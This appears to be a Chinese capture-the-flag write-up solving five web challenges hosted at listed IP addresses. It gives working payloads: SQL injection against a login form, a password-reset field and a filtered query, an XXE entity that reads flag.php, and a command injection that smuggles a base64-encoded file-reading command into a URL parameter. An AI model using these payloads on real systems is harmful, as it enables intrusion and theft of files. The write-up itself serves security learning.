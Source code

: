 ## 人，才是最大的漏洞
题目地址： http://114.55.36.69:57012/
经典登录框注入，构造
```
username=1'union select md5(1)#
password=1
```
拿到flag

## sqlmap没有卵用 
题目地址： http://118.178.18.181:57019/
右键源代码提示`source.php`,union和from前面只能存在字母，不能有空格，构造`\N`绕过，(我也不知道为啥只有`\N`可以，小写n的不行)
```sql
\Nunion select 1,flag, \Nfrom flag%23 
 // \N表示回车，在Linux中表示一行的结束。
 ```

## 都是php就不好玩了呀
题目地址： http://118.178.18.181:57016/index.pl?file=test.txt
构造代码注入，这里要把含有flag的用base64编码
```
http://118.178.18.181:57016/index.pl?file=test.txt| `echo Y2F0IC92YXIvd3d3L2h0bWwvZmxhZy5wbA==| base64 -d`|
```

## can u read me,do u understand me?
题目地址： http://114.55.36.69:57018/
XXE,直接读取flag.php，读取出来的源码是phpjiami过的，可以去花钱解也可以直接用工具解
```
<!DOCTYPE xdsec[
<!ELEMENT methodname ANY>
<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=flag.php">]>
<user><name>&file;</name></user>
```

## 还记得找回密码的功能嘛
题目地址： http://114.55.36.69:57014/
给了源码
payload
```
'union select 1,2,3,4 -- yourqq@qq.com
```
这里主要是利用了空格会被分割成多个收件人